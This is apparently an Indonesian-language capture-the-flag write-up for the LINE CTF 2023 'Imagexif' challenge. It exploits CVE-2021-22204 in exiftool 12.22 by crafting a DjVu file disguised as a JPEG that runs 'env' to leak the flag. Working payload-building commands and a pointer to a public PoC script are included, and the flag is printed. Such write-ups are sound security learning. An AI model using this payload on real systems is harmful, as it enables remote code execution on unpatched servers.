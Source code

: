 # Imagexif

## Deskripsi
This site provide you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination

## Solusi
Challenge yang diberikan ini memiliki sebuah vulnerability yang kemungkinan bisa dieksploitasi untuk mendapatkan flag yang dicari.

Setelah mencari, ternyata vulnerability ada pada versi `exiftool` yang masih rentan terhadap vulnerability [CVE-2021-22204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22204) dimana dengan mengeksploitasi vulnerability tersebut dapat membuat RCE (Remote Code Execution) pada target. Vulnerability tersebut ditemukan pada `Dockerfile`

```dockerfile
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

Kemudian pada file `docker-compose.yml` diketahui bahwa flag terdapat pada `environment`, seperti berikut ini
```yml
backend:
        build:
            context: ./backend/
        container_name: line_linectf2023_backend
        restart: always
        environment:
            - FLAG=LINECTF{redacted}
            - SCRIPT_ENV=production
        networks:
            - line-linectf2023-internal
```

Untuk mengeksploitasi vulnerability tersebut install terlebih dahulu package yang diperlukan
```bash
sudo apt install -y djvulibre-bin
```

Dari link [berikut](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/) dibuat sebuah file payload yang akan diupload ke server. Payload yang akan dibuat akan mengeksekusi command apapun yang dimasukkan dan ditampilkan pada metadata `Copyright`. 

```bash
$ printf 'P1 1 1 1' > input.pbm
$ cjb2 input.pbm mask.djvu
$ djvumake exploit.djvu Sjbz=mask.djvu
$ echo -e '(metadata (copyright "\\\n" . `env` #"))' > input.txt
$ djvumake exploit.djvu Sjbz=mask.djvu ANTa=input.txt
$ mv exploit.djvu exploit.jpg
```

Setelah itu dicoba terlebih dahulu di local untuk memastikan bahwa payload yang dibuat sudah berhasil. Oke, disini payload yang dibuat sudah berhasil.

![Test the payload on local](./test_on_local.png)

Selanjutnya hanya tinggal meng-upload file payload yang sudah dibuat ke server challenge dan didapatkan flag yang dicari.

![Flag](./solve.png)

### Solusi Alternatif
Selain menggunakan langkah di atas untuk membuat payload, ada langkah yang lebih cepat yang telah disediakan oleh [bilkoh](./https://github.com/bilkoh/POC-CVE-2021-22204) pada GitHub repositorinya.
Untuk menggunakannya dengan cara berikut ini

```bash
./build_image.pl env
```
Dimana `env` adalah command yang ingin dijalankan pada target. Setelah program tersebut dijalankan, akan dihasilkan file `notevil.jpg` yang bisa di-upload pada server challenge.

## Flag
### LINECTF{2a38211e3b4da95326f5ab593d0af0e9}